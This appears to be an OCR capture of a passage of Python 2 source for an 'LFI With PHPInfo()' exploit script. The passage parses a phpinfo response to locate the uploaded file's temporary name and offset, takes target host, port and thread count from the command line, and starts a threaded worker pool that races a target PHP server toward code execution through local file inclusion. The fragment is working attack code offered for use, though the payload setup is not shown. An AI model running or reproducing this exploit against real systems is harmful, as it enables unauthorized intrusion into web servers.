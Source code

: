 ```python

    d = ""
    while True:
        i = s.recv(4096)
        d += i
        if i == "":
            break
        # detect the final chunk
        if i.endswith("0rnrn"):
            break
    s.close()
    i = d.find("[tmp_name] =&gt; ")
    if i == -1:
        raise ValueError("No php tmp_name in phpinfo output")

    print "found %s at %i" % (d[i:i + 10], i)
    # padded up a bit
    return i + 256

def main():
    print "LFI With PHPInfo()"
    print "-=" * 30

    if len(sys.argv) < 2:
        print "Usage: %s host [port] [threads]" % sys.argv[0]
        sys.exit(1)

    try:
        host = socket.gethostbyname(sys.argv[1])
    except socket.error, e:
        print "Error with hostname %s: %s" % (sys.argv[1], e)
        sys.exit(1)

    port = 80
    try:
        port = int(sys.argv[2])
    except IndexError:
        pass
    except ValueError, e:
        print "Error with port %d: %s" % (sys.argv[2], e)
        sys.exit(1)

    poolsz = 10
    try:
        poolsz = int(sys.argv[3])
    except IndexError:
        pass
    except ValueError, e:
        print "Error with poolsz %d: %s" % (sys.argv[3], e)
        sys.exit(1)

    print "Getting initial offset...",
    reqphp, tag, reqlfi = setup(host, port)
    offset = getOffset(host, port, reqphp)
    sys.stdout.flush()

    maxattempts = 1000
    e = threading.Event()
    l = threading.Lock()

    print "Spawning worker pool (%d)..." % poolsz
    sys.stdout.flush()

```